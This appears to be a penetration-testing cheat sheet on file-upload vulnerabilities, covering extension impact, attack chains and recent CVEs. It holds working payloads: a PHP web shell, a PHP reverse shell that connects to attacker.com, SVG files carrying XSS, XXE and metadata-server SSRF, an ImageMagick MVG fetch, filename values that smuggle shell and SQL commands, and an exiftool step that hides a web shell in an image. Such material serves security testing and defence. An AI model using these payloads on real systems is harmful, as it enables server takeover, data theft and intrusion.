

## Vulnerabilities

### Common File Upload Vulnerability Patterns



#### Implementation-Specific Vulnerabilities

1. **CMS Upload Vulnerabilities**:
   - **WordPress**: Plugin and theme uploaders
     ```
     Upload plugin ZIP with malicious PHP files
     SVG uploads with XSS in media library
     ```
   - **Drupal**: Module installations
     ```
     Malicious module installation via admin panel
     ```
   - **Joomla**: Template uploads
     ```
     Malicious template installation
     ```

2. **Framework Upload Vulnerabilities**:
   - **PHP**: File upload handling in common frameworks
     ```
     Laravel file upload middleware bypass
     CodeIgniter upload library misconfiguration
     ```
   - **Java**: Spring MVC file upload handlers
     ```
     Spring MultipartResolver misconfiguration
     ```
   - **ASP.NET**: File upload components
     ```
     ASP.NET FileUpload control misconfiguration
     ```

3. **Language-Specific Upload Vulnerabilities**:
   - **PHP**: move_uploaded_file() race conditions
   - **Java**: Temporary file creation vulnerabilities
   - **Node.js**: Express-fileupload vulnerabilities

### Impact Scenarios

#### Extension Impact Matrix

Common file extensions and their potential security impacts:

- **Web Shells & RCE**:
  - `.php`, `.php3`, `.php4`, `.php5`, `.phtml`, `.phar`, `.phpt`
  - `.asp`, `.aspx`, `.ashx`, `.asmx`, `.asa`, `.cer`, `xamlx` (ASP.NET)
  - `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf` (Java Server Pages)
  - `.cfm`, `.cfml`, `.cfc`, `.dbm` (ColdFusion)
  - `.pl`, `.py`, `.rb`, `.cgi`
  - `.htaccess` (if Apache allows override, can reconfigure PHP handling or execute commands)
  - `.config` (web.config for IIS/ASP.NET)
- **Client-Side Attacks**:
  - `.svg`: Stored XSS, SSRF, XXE
  - `.gif`: Stored XSS (via comments), SSRF
  - `.html`, `.js`: HTML injection, XSS, Open redirect, Phishing
  - `.wasm`: WebAssembly modules for client-side code execution
  - `.webp`, `.avif`: Modern image format parser bugs
- **Server-Side Attacks**:
  - `.csv`: CSV injection (Formula Injection)
  - `.xml`: XXE
  - `.avi`, `.mov`: Potential LFI, SSRF (via external streams/subtitles)
  - `.pdf`, `.pptx`: SSRF, Blind XXE (via external entities/references)
  - `.zip`: RCE via LFI (using `zip://` wrapper), DoS (Zip Bomb), Zip Slip (Path Traversal during extraction)
  - `.scf` (Windows Shortcut): RCE (forces NTLM hash disclosure when browsed via UNC path)
- **Denial of Service**:
  - `.png`, `.jpeg`: Pixel flood attack (large dimensions/compressed data)
  - Large filenames: `1234...99.png` (e.g., > 255 chars)
  - Zip bombs (highly compressed archives)
  - Files exploiting parser libraries (ImageTragick, XML bombs)

#### Remote Code Execution (RCE)

- **Web Shell Uploading**: Gaining command execution on the server
  ```php
  <?php system($_GET['cmd']); ?>
  ```
- **Reverse Shell Deployment**: Establishing persistent control
  ```php
  <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/attacker.com/443 0>&1'");?>
  ```

#### File Inclusion Attack Chains

- **LFI via Uploaded Files**: Chaining local file inclusion with uploads
  ```
  1. Upload malicious file (e.g., `avatar.jpg` containing PHP code).
  2. Trigger inclusion via LFI vulnerability (e.g., `/?page=../../uploads/avatar.jpg`).
  ```
- **LFI via Zip Wrapper**:
  ```
  1. Upload malicious file inside a zip (e.g., `archive.zip` containing `shell.php`).
  2. Trigger inclusion: `/?page=zip://uploads/archive.zip%23shell.php`
  ```

#### XSS via Uploaded Files

- **SVG-Based XSS**:
  ```xml
  <?xml version="1.0" standalone="no"?>
  <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
     <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
     <script type="text/javascript">
        alert("XSS via SVG");
     </script>
  </svg>
  ```
- **GIF Comment XSS**:
  ```
  GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
  ```
- **HTML/JS File Uploads**:
  ```html
  <!-- If .html or .js uploads are allowed and rendered -->
  <script>
    alert(document.cookie);
  </script>
  ```
- **Filename-Based XSS**:
  ```
  filename="<svg onload=alert(1)>.jpg"
  filename="xss.<svg onload=alert(1)>.jpg"
  ```

#### Server-Side Request Forgery (SSRF) via Uploads

- **XXE in SVG Uploads**:
  ```xml
  <?xml version="1.0" standalone="yes"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "http://internal.service/resource"> ]>
  <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
     <text font-size="16" x="0" y="16">&xxe;</text>
  </svg>
  ```
- **SVG Image Href SSRF**:
  ```xml
  <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
  <svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200">
    <image height="200" width="200" xlink:href="http://internal-metadata-server/latest/meta-data/" />
  </svg>
  ```
- **PDF/PPTX SSRF**: Exploiting features that fetch external resources.
- **Upload from URL Feature**: If the application allows providing a URL for upload, test internal IPs/metadata endpoints.
- **SSRF via Filename**: Submitting a URL as the filename (`filename=http://internal...`).
- **SSRF via HTTP Range Requests**: Manipulating `Range` header during URL fetch.

#### XXE via Uploads

- **XML File Upload**: Standard XXE payloads in `.xml` files.
- **SVG File Upload**: See SSRF example above.
- **Excel File Upload (`.xlsx`)**: `.xlsx` files are zip archives containing XML files (like `sharedStrings.xml`) which can be crafted with XXE payloads.
- **PDF/PPTX Blind XXE**: Similar to SSRF, using external entity references.

#### Open Redirect via Uploads

- **SVG Open Redirect**:
  ```xml
  <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
  <svg onload="window.location='https://attacker.com'" xmlns="http://www.w3.org/2000/svg">
    <rect width="300" height="100"/>
  </svg>
  ```

#### Command Injection via Filename

- If the filename is passed unsanitized to shell commands:
  ```
  filename="; sleep 10;.jpg"
  filename="`sleep 10`.jpg"
  filename="$(sleep 10).jpg"
  ```

#### SQL Injection via Filename

- If the filename is used unsanitized in SQL queries:
  ```
  filename="' OR SLEEP(10)-- -.jpg"
  filename="sleep(10)-- -.jpg"
  filename="'sleep(10).jpg" # Different quoting/termination
  ```

#### Denial of Service (DoS)

- **Pixel Flood Attack**: Uploading specially crafted images (e.g., `lottapixel.jpg`) that consume excessive resources during processing. ([Reference](https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/file-upload/malicious-images/lottapixel.jpg))
- **Zip Bomb**: Uploading highly compressed archives that expand significantly.
- **Large Filename**: Using extremely long filenames can sometimes cause issues or DoS.
- **Uploading files with content that exploits parsing libraries (e.g., ImageTragick, billion laughs XXE).**
- **Uploading `.eml` files with `Content-Type: text/html` if processed insecurely.**
- **FFmpeg/Video Processing**: Upload crafted video files (`.mp4`, `.avi`, `.mov`) with malicious metadata or subtitles to trigger SSRF/RCE in video converters.
- **HEIC/AVIF Processing**: Exploit parsing bugs in libheif/libavif during thumbnail generation.
- **PDF.js Browser Rendering**: Upload PDFs with malicious annotations or forms that exploit client-side renderers.

#### Additional Attack Vectors

##### ImageMagick Vulnerabilities

1. Using .mvg files for SSRF/LFI:

```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://attacker.com/)'
pop graphic-context
```

2. Using the gifoeb tool for memory disclosure:

```bash
./gifoeb gen 512x512 dump.gif
# Try different extensions:
./gifoeb gen 1123x987 dump.jpg
./gifoeb gen 1123x987 dump.png
# Recover pixels after upload and download:
# for p in previews/*; do ./gifoeb recover $p | strings; done
```

##### WAF Bypass Techniques

1. URL Parameter Manipulation:

```
/?file=xx.php    <- Blocked
/?file===xx.php  <- Bypassed
```

2. Content-Type Manipulation with Metadata:

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg
mv shell.jpg shell.php.jpg
```

### New CVEs

- **CVE-2024-29510 – Ghostscript ≤ 10.03.0 EPS/JPG RCE**: Exploit via EPS-in-JPG polyglot when Ghostscript is used for image conversion.
- **CVE-2024-53677 – Apache Struts S2-067**: Multipart upload path-traversal leading to RCE.
- **CVE-2024-57169 – SOPlanning ≤ 1.53**: Arbitrary file upload to the web-root.
- **CVE-2024-48514 – php-heic-to-jpg ≤ 1.0.5**: Filename sanitisation bypass resulting in RCE during HEIC conversion.
- Image processing stacks (libvips/Sharp, GraphicsMagick/ImageMagick, Ghostscript, pdfium) continue to receive critical parser bugs; sandbox converters and track advisories.
- HEIC/AVIF conversion pipelines frequently mishandle temporary files and trust `Content-Type`/magic bytes.
- Serverless image proxies (imgproxy, Thumbor, custom Lambda/Cloud Functions) often allow SSRF/LFI via remote URL sources.

